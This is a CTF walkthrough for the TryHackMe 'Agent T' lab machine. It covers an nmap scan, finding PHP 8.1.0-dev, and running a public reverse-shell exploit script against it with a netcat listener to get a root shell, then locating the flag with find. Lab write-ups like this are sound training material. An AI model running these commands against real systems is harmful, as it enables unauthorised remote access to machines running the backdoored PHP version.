 ```yaml
---
title: "Agent T WriteUp"
categories: [ctf]
date: 2022/08/07
image: img/agent_t_thm/0.png
description: TryHackMe Agent T WriteUp.
---
```


# TryHackMe | Agent T

<p align="center">
  <img src="/img/agent_t_thm/0.png">
</p>

## Scanning && Enumeration

Let's start with the network scan first.

<p align="center">
  <img src="/img/agent_t_thm/1.png">
</p>

```bash
nmap -sSV --min-rate 1000 -p- -v <ip>

```
A web application is running on port 80. PHP 8.1.0 dev version. Let's look at the web interface.

<p align="center">
  <img src="/img/agent_t_thm/2.png">
</p>

This is the default admin dashboard. I browsed the pages, but i couldn't find any important clue or information.

It made more sense to find exploits suitable for PHP version.

## Exploitation

<p align="center">
  <img src="/img/agent_t_thm/3.png">
</p>

I found the appropriate exploit in exploit-db, but it didn't give me tty access, so i decided not to use the other exploit. Of course the choice is yours.

<p align="center">
  <img src="/img/agent_t_thm/4.png">
</p>

In order to exploit the remote code execution vulnerability, i listened with netcat and gave the necessary addresses and ports to the python script. I finally got the root shell.

```bash

python3 rce.py <dst-ip> <src-ip> <src-port>

```

<p align="center">
  <img src="/img/agent_t_thm/5.png">
</p>

There is no need for any privilege escalation process and we can find it with the find command since it asks for a flag from us.

<p align="center">
  <img src="/img/agent_t_thm/6.png">
</p>

```bash
find / -name *.txt

```

It was that simple. Yes, this is very easy when you do the right enumeration and exploitation.






### Resources

 - [Exploit 1](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py "Exploit")
 - [Exploit 2](https://www.exploit-db.com/exploits/49933 "Exploit 2")



